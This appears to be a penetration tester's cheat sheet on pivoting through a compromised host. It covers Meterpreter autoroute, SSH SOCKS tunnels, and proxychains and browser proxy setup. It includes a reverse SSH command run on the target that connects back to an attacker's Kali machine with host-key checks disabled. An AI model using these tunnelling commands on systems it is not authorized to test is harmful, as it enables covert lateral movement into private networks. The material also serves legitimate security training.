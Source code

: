 # SSH Tunnel

NOTE: needs valid SSH creds on box to pivot from.

## meterpreter

```bash
run autoroute -s IP/CIDR
run autoroute -p
[OR]
use post/multi/manage/autoroute
```

## using ssh:

### Outgoing

```bash
ssh user@IP -D 6900
# this sets up a tunnel between localhost:TUNNEL-PORT and target
# any requests to localhost:TUNNEL-PORT is routed via target
```

### Incoming

#### authorized_keys file

```bash
from="IP",command="echo 'This account can only be used for Port Forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty <SSH-PUBLIC-key>
```

#### Command

```bash
# for allowing a connecting to your port from outside (incoming)
ssh -N -f -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -R PORT -i <id_rsa> KALI-USER@KALI-IP

# -N: not running commands
# -f: go to background
# UserKnownHostsFile=/dev/null & StrictHostKeyChecking=no will not ask kali password; not safe to enter password on target.
```

## Proxychains4 config

### /etc/proxychains4.conf

```bash
# add line for socks4 proxy 
socks4 127.0.0.1 6900

# add line for socks5 proxy
socks5 127.0.0.1 6900
```

Now, run any command using `$ proxychains4 [command]`

## proxychains4 for browser

Set up a foxyproxy configuration for browser:

1. Title: proxychains
2. Proxy Type: SOCKS4
3. Proxy IP: localhost
4. Port: 6900